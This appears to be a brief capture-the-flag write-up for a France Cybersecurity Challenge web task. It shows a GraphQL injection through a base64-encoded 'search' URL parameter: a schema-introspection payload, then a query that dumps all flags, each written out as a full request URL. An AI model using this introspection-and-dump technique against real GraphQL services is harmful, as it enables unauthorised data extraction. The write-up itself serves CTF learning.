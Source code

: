 Identify the injection: 
Payload : {__schema{types{name}}}

```http://challenges2.france-cybersecurity-challenge.fr:5006/index.php?search=e19fc2NoZW1he3R5cGVze25hbWV9fX0= ```

Exploit the injection:
Payload: { allFlags{nodes{flag}}}
```http://challenges2.france-cybersecurity-challenge.fr:5006/index.php?search=eyBhbGxGbGFnc3tub2Rlc3tmbGFnfX19```

